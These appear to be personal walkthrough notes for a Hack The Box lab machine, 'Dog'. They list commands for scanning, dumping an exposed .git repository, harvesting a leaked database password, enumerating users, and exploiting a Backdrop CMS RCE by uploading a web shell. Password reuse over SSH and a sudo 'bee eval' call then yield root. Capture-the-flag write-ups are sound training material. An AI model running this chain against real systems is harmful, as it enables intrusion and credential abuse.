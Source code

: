 
nmap -sV -sC -A 10.129.77.72

found .git directory
and
robots.txt

http://10.129.77.72/?q=about
found domain dog.htb
echo '10.129.77.72 dog.htb'|sudo tee -a /etc/hosts

git clone https://github.com/lijiejie/GitHack.git && cd GitHack
python3 GitHack.py http://dog.htb/.git
settings.php
mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop

salt
aWFvPQNGZSz1DQ701dD4lC5v1hQW34NefHvyZUzlThQ

hmm, no git commit history, try another tool
githacker --url http://127.0.0.1/.git/ --output-folder result
commit:
todo: customize url aliases.  reference:https://docs.backdropcms.org/documentation/url-aliases
probably will find something interesting there
also note author
Author: root <dog@dog.htb>

lets find out backdrop version in git sources
grep -R version .
./core/themes/basis/basis.info:version = BACKDROP_VERSION
./core/themes/basis/basis.info:version = 1.27.1

searchsploit backdrop 
nothing interesting
lets google backdrop cve rce
found POC
https://www.exploit-db.com/exploits/52021
curl https://www.exploit-db.com/raw/52021 > poc.py

python poc.py http://dog.htb
well, payload is generated and now we need to gain admin creds, lets try default ones
we'll grep source codes
hmmm
./core/includes/password.inc:      $hash = _password_crypt('md5', $password, $stored_hash);

hash is md5?...
examine sources and google, asked deepseek and it seems there is no default password
lets try pass from mysql for user dog and root
didn't work :(

tried forgot password
dog@dog.htb
root@dog.htb
admin@dog.htb
it tells invalid email
tried 
dog
root
admin

and lets check blog posts authors
dogBackDropSystem
yep! unable send email
BackDropJ2024DS2024
but it didn't work either

python BackDropScan.py --url http://dog.htb --userslist /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt --userenum
log in to cms with found usernames at /?q=user/login
finally found working one:
tiffany@dog.htb:BackDropJ2024DS2024

python poc.py http://dog.htb
aunpack shell.zip
apack shell.tar.gz shellBackDropScan
http://dog.htb/?q=admin/installer/manual
upload shell.tar.gz

open shell
http://dog.htb/modules/shell/shell.php

list users
ls /home
johncusack

reuse the password:
ssh johncusack@dog.htb
BackDropJ2024DS2024

sudo -l
read /usr/local/bin/bee help and run
sudo /usr/local/bin/bee --root=/var/www/html/ eval "system(cat /root/root.txt');"